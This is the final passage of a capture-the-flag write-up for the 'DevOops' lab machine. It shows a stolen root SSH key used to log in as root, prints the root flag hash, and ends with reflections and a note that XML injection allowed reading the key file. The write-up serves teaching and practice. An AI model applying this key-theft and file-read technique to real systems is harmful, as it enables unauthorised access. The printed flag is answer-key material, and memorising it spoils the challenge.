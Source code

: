 I close the session and try to login as root with this key:

```
root@kali:~/htb/boxes/DevOops# vim root_id_rsa
root@kali:~/htb/boxes/DevOops# chown 0600 root_id_rsa 
root@kali:~/htb/boxes/DevOops# ssh -i root_id_rsa root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# whoami & id
[1] 1901
uid=0(root) gid=0(root) groups=0(root)
root
[1]+  Done                    whoami
root@gitter:~#
```

Lastly, I get the flag:

```
root@gitter:~# cat root.txt 
d4fe1e7f7187407eebdd3209cb1ac7b3
root@gitter:~#
```

> Result of `root.txt`: d4fe1e7f7187407eebdd3209cb1ac7b3

# Conclusion

Pretty straightforward machine. Initial access was a bit tricky at first, but once you understand how to retrieve the important files from the box, and considering that there are only two ports open and one of them is running OpenSSH, one should be able to solve it and understand what to do. 

In the privilege escalation section, this machine is a good reminder that it's always a good idea to know what commands the user has been running previously. The command `history` is crucial for this: valuable information can be shown if one looks at the past.

Lastly, it's also important to know `git` and how it works. 

**Edit on 08-07-19** 

So, after I wrote the post I checked some of other people's solutions for the machine and found out that I rooted it in an unintended way. Apparently, the creator of the box missed the fact that after injecting the code in the XML file, one could retrieve the *.ssh/id_rsa* file and log in directly through `ssh`. 

The inteded way seems to be to check the code of the *feed.py* file and find the */newpost* function and read it. 
